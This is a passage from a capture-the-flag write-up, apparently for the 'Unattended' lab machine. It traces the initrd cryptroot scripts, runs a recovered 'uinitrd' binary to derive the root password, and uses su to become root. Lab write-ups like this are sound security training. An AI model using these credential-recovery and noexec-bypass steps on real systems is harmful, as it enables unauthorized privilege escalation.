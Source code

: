 Those variables being checked are set in a loop parsing the args at the top of
the script. I can do a grep across the `scripts` directory to find where it’s
called:

    
    
    guly@unattended:/dev/shm/.d/scripts$ grep -r 'local-top/cryptroot' .
    ./local-block/cryptroot:if [ -x /scripts/local-top/cryptroot ]; then
    ./local-block/cryptroot:        exec /scripts/local-top/cryptroot
    ./local-top/ORDER:/scripts/local-top/cryptroot "$@"
    

So `scripts/local-block/cryptroot` calls it:

    
    
    if [ -x /scripts/local-top/cryptroot ]; then
            exec /scripts/local-top/cryptroot
    fi
    

And it calls it with no arguments. Looking at the if statements above then, I
can guess that `$cryptopen` is set to:

    
    
    /sbin/cryptsetup -T 1 -c $cryptcipher -s $cryptsize -h $crypthash open --type plain $cryptsource $crypttarget --key-file=-
    

I see that last arguments, `--key-file=-`. `-` is used to mean `stdin`, so
whatever I’m piping into this part of the call, that’s the contents of the key
file. I can also see those other two variables used here in this call.

### Generate Password

But my focus is now what’s in the key file. It is the output of `/sbin/uinitrd
c0m3s3f0ss34nt4n1`. I can run that on Unattended (in fact, I have to run it on
Unattended, see Beyond Root). I’ll have to move it first since my shm dir is
noexec:

    
    
    guly@unattended:/dev/shm/.d$ cp sbin/uinitrd ~/.d
    guly@unattended:/dev/shm/.d$ chmod +x ~/.d/uinitrd 
    guly@unattended:/dev/shm/.d$ ~/.d/uinitrd c0m3s3f0ss34nt4n1
    132f93ab100671dcb263acaf5dc95d8260e8b7c6
    

### su

That output is actually the root password. With that password, I can now
change user to root:

    
    
    guly@unattended:/dev/shm/.d$ su -
    Password: 
    root@unattended:~# id
    uid=0(root) gid=0(root) groups=0(root)
    
